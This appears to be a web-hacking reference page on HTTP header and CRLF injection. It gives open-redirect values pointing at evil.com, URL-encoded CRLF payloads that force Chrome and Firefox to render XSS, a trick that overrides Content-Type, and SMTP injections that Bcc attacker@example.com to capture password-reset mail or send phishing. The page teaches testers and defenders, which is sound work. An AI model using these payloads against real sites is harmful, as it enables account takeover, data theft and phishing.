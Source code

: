 ```yaml
---
description: >-
  Manipulate HTTP headers in your favor or insert completely new ones with even
  more control
---
```


# Header / CRLF Injection

HTTP is a plaintext protocol that works with Carriage Return (`\r`) Line Feed (`\n`) delimited headers. When user input lands in the **response headers** from an HTTP server, injecting these CRLF characters can result in some client-side attacks abusing headers.&#x20;

## Location

The `Location` header in HTTP is used for redirecting to another page, which the browser will do when it gets a 3XX response. If your injection point lies in this header there are some useful tricks:

<pre class="language-http" data-title="Response"><code class="lang-http">HTTP/1.1 302 Found
Content-Type: text/html
<strong>Location: [INPUT]
</strong></code></pre>

This is common for dynamic redirections and from data you control such as URL parameters, path parameters, or stored data. The context for this header matters a lot, especially what comes before your input. **Open Redirect** vulnerabilities are common here if you control a significant part:

```http
Location: [INPUT]                   -> http://evil.com
Location: /[INPUT]                  -> //evil.com
Location: http://example.com[INPUT] -> http://example.com@evil.com
Location: /any/path/[INPUT]         -> ../../dangerous/path
```

If it is possible to inject CRLF characters, you can add more headers and even content to the response. With HTML content this may lead to **XSS**, but a tricky situation comes from the fact that the response is _still redirecting_. Modern browsers will not render the page, but simply follow the `Location` header, ignoring your payload. We can get around this however in Firefox and Chrome if we have **control over the start** of the header (see [these](https://www.gremwell.com/firefox-xss-302) [writeups](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/)):

{% code title="Firefox" %}
```http
Location: ws://anything
Location: wss://anything
Location: resource://anything
```
{% endcode %}

{% code title="Chrome" %}
```http
Location: 
```
{% endcode %}

With the above payloads, you can force the browser to stop redirecting and show the content instead. With the ability to insert newlines in the response you can give it a HTML body with XSS:

**Chrome** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(false\)\&input=DQoNCjxzdmcgb25sb2FkPWFsZXJ0KCk%2B\&ieol=%0D%0A): `%0D%0A%0D%0A%3Csvg%20onload=alert()%3E`

```http
Location: 

<svg onload=alert()>
```

**Firefox** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(false\)\&input=d3M6Ly9hbnl0aGluZw0KDQo8c3ZnIG9ubG9hZD1hbGVydCgpPg\&ieol=%0D%0A): `ws://anything%0D%0A%0D%0A%3Csvg%20onload=alert()%3E`

```http
Location: ws://anything

<svg onload=alert()>
```

## Content-Type

You might find yourself with an injection into some header, where you would like to add two CRLF sequences and an HTML body to cause XSS. One header that might get in the way is the `Content-Type`:

<pre class="language-http" data-title="Example Case"><code class="lang-http"><strong>Content-Type: application/json
</strong>Some-Header: [INPUT]

{key: "&#x3C;svg onload=alert()>"}
</code></pre>

The above payload _will not_ fire because browsers render these content types differently. Ideally, it would be `text/html`. Using a header injection we can **add another** `Content-Type` header **after** the one we want to overwrite, which will be chosen over the previous by browsers!

[**Payload**](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(false\)\&input=YW55dGhpbmcNCkNvbnRlbnQtVHlwZTogdGV4dC9odG1s\&ieol=%0D%0A): `anything%0D%0AContent-Type:%20text/html`

<pre class="language-http" data-title="Payload"><code class="lang-http"><strong>Content-Type: application/json
</strong>Some-Header: anything
<strong>Content-Type: text/html
</strong>
{key: "&#x3C;svg onload=alert()>"}
</code></pre>

More tricks for `[INPUT]` _inside_ the existing `Content-Type` header itself can be found in [this writeup](https://gist.github.com/avlidienbrunn/8db7f692404cdd3c325aa20d09437e13). It contains a trick to escape the HTML context if your payload in the body is limited.&#x20;

## SMTP

Just like HTTP, SMTP for sending emails is also a CRLF-delimited plaintext protocol with headers. These emails are often sent by applications automatically with information to you like a password reset or notifications. Such emails are often sensitive and if an attacker-controlled input can mess with the request it can get leaked, or malicious content can be injected.&#x20;

A typical SMTP request looks like this:

```xml
EHLO
MAIL FROM:sender@example.com
RCPT TO:recipient@example.com
DATA
From: sender@example.com
To: recipient@example.com
Subject: some subject

Content...
.

```

A common place to inject is the `RCPT TO:` SMTP header as this is where the email is sent to. By injecting CRLF characters, new headers like `RCPT TO:attacker@example.com` to receive a copy of the email in your inbox (very dangerous for secrets like **password reset** tokens!). \
More commonly you will also see an injection into the `DATA` section where headers like `Bcc` can be added to send a copy to yourself or add content to the email for an indistinguishable phishing attack. A common place is the `Subject` or `From`/`To` headers:

**Subject** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(false\)\&input=YQ0KQmNjOiBhdHRhY2tlckBleGFtcGxlLmNvbQ0KDQo8aDE%2BUGhpc2hpbmchPC9oMT4\&ieol=%0D%0A): `a%0D%0ABcc:%20attacker@example.com%0D%0A%0D%0A%3Ch1%3EPhishing!%3C/h1%3E`

```
From: sender@example.com
To: recipient@example.com
Subject: a
Bcc: attacker@example.com

<h1>Phishing!</h1>
Content...
```
